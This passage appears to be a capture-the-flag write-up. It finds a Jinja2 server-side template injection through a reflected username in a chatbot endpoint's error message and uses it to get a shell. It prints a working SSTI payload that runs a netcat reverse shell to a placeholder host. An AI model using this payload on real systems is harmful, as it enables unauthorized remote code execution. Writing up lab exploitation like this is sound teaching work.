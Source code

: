 Let's try to check the behavior of the endpoint:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250226160121.png)

As known, it requires a POST request, let's send one with empty data:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250226160238.png)

If we change our username to `admin` this happens:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250226160324.png)

We get an error message saying: `Sorry, admin, our chatbot server is currently under development.`

But, if we analyze the error message, we see that our input gets reflected in the response the endpoint is giving us, let's change the username to test and check if its true:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250226160441.png)

And that's correct, let's test for `SSTI`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250226160538.png)

We got it, this is vulnerable to SSTI, in this case, we are facing Jinja2, let's take a look at my old notes from HTB BBHP which talks about this: 

[[CYBERSECURITY/Bug Bounty/HTB BUG BOUNTY HUNTER PATH/Server-Side Attacks/SSTI/Exploiting SSTI - Jinja2.md|Exploiting Jinja2]]

For example, let's try to read the web application configuration:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250226161449.png)

Nice, now, our next step is getting a shell:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f').read() }}
```

After we send this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250226161615.png)

We got a shell as `azrael`, let's begin privilege escalation.

# PRIVILEGE ESCALATION
---

First step would be getting an [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stable shell]]:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250226161731.png)

There is our first flag:
